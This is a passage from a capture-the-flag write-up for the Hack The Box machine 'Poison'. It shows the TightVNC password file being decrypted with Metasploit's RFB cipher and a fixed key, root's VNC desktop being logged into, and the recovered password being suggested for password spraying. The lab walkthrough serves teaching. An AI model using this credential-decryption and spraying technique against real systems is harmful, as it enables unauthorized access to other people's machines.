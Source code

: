 ![](./images/poison-tight-vnc-window.png)

## Extra

TightVNC passwords are essentially 8 character passwords and can be easily decoded like below:

```none
$ xxd -p secret
bda85b7cd5967a21
```

```none
kali@kali:~/htb/machines/poison/privesc$ msfconsole -q
msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["bda85b7cd5967a21"].pack('H*'), fixedkey
=> "VNCP@$$!"
```

I got the sample code [here](https://github.com/frizb/PasswordDecrypts).
You can then reuse the password to login to VNC.
In a larger network, you may even want to use that password for password spraying.

```none
kali@kali:~/htb/machines/poison/loot$ vncviewer 127.0.0.1:5901
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password:
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```
